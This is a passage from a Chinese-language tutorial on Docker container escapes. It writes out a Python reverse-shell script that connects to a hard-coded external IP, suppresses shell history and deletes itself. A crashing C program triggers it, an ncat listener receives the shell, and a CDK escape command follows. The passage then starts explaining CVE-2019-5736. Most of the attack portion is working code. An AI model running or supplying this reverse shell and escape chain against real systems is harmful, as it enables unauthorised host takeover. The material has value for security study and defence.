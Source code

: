 |     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```python<br>cat >/tmp/.x.py << EOF<br>#!/usr/bin/python<br>import os<br>import pty<br>import socket<br>lhost = "101.32.10.105"<br>lport = 9999<br>def main():<br>    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>    s.connect((lhost, lport))<br>    os.dup2(s.fileno(), 0)<br>    os.dup2(s.fileno(), 1)<br>    os.dup2(s.fileno(), 2)<br>    os.putenv("HISTFILE", '/dev/null')<br>    pty.spawn("/bin/bash")<br>    os.remove('/tmp/.x.py')<br>    s.close()<br>if __name__ == "__main__":<br>    main()<br>EOF<br><br>chmod +x /tmp/.x.py<br>``` |

最后，在容器内运行一个可以崩溃的程序即可，例如：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```c<br>#include <stdio.h><br>int main(void)<br>{<br>    int *a = NULL;<br>    *a = 1;<br>    return 0;<br>}<br>``` |

容器内若没有编译器，可以先在其他机器上编译好后放入容器中。

完成后，在其他机器上开启 shell 监听：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ncat -lvnp 9999<br>``` |

接着在容器内执行上述编译好的崩溃程序，即可获得反弹 shell。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638548.png-water_print](assets/1699410413-2110fa940636565edcf39439c2978a46 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638548.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638511.png-water_print](assets/1699410413-25118e50d20b88020cb21194f5053cb3 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638511.png-water_print")

利用 CDK 工具：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>./cdk run mount-procfs /mnt/host_proc "touch /tmp/exp-success"<br>``` |

## [](#4-%E7%9B%B8%E5%85%B3%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8)4 相关程序漏洞导致的容器逃逸

### [](#41-cve-2019-5736)4.1 CVE-2019-5736

影响版本：`Docker version <= 18.09.2` & `RunC version <= 1.0-rc6`

#### [](#411-%E5%8E%9F%E7%90%86)4.1.1 原理

CVE-2019-5736 一个能够覆盖宿主机 runc 程序的容器逃逸漏洞。

在执行功能类似于 `docker exec` 等命令时，底层实际上是容器运行时在操作。例如 runC，相应地，`runc exec` 命令会被执行。它的最终效果是在容器内部执行用户指定的程序。进一步讲，就是在容器的各种命名空间内，受到各种限制（如 Cgroups）的情况下，启动一个进程。除此以外，这个操作与在宿主机上执行一个程序并无二致。

执行过程大体如下：runC 启动并加入到容器的命名空间，接着以自身 (`/proc/self/` `exe`）为范本启动一个子进程，最后通过 exec 系统调用执行用户指定的二进制程序。

proc 伪文件系统，即 /proc。关于这个概念，这里我们主要关注 proc 下的两类文件：

-   `/proc/[PID]/exe`：它是一种特殊的符号链接，又被称为 `magic links`，指向进程自身 对应的本地程序文件（例如我们执行 `ls /proc/[ls-PID]/exe` 就指向 `/bin/ls`)。
-   `/proc/[PID]/fd/`：这个目录下包含了进程打开的所有文件描述符。

`/proc/[PID]/exe` 的特殊之处在于，当打开这个文件时，在权限检查通过的情况下，内核将 直接返回一个指向该文件的描述符，而非按照传统的打开方式做路径解析和文件查找。这样 一来，它实际上绕过了 mnt 命名空间及 chroot 机制对一个进程能够访问到的文件路径的限制。
